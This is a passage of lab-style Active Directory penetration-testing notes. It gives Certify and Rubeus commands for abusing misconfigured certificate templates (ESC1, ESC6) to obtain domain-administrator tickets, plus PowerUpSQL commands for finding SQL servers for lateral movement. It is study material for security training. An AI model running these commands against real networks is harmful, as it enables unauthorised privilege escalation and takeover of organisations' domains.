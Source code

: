 ```
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:SecretPass@123 /ptt
```

### ADSC - ESC1

* The template "HTTPSCertificates" has ENROLLEE\_SUPPLIES\_SUBJECT value for msPKI-Certificates-Name-Flag.

```
Certify.exe find /enrolleeSuppliesSubject
```

* The template "HTTPSCertificates" allows enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentx

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:"HTTPSCertificates" /altname:administrator
```

* Convert from cert.pem to pfx (esc1.pfx below) and use it to request a TGT for DA (or EA).

```
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:SecretPass@123 /ptt
```

### MSSQL Servers - Trust Abuse

* MS SQL servers are generally deployed in plenty in a Windows domain
* SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.
* For MSSQL and PowerShell hackery, lets use PowerUpSQL - https://github.com/NetSPI/PowerUpSQL
* Discovery (SPN Scanning)

```
Get-SQLInstanceDomain
```

* Check Accessibility

```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

* Gather Information

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### MSSQL Servers - Database Links  - Trust Abuse

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

